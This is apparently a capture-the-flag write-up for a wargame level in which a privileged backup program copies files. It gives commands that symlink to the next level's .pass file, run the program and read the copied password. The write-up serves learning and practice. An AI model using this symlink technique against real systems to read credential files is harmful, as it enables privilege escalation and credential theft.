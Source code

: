 ## Brief
This program is pretty simple as no over-complicated exploit is necessary to get access to the flag.
This program open and write some logs in a file located at ./backup/logs and copy the file as parameter in the `backup` folder.

## Exploit
In order to be able to read we could simply do:
```bash
./level08 /home/users/level09/.pass
```
or
```bash
./level08 ../level09/.pass
```
But the file cannot be created in the `backup` folder.

The trick is to create a simlink pointing to the `.pass` file in order to be able to create a file in the backup folder.

## Commands
 
```bash
ln -s ../level09/.pass test
./level08 test
cat ./backups/test
```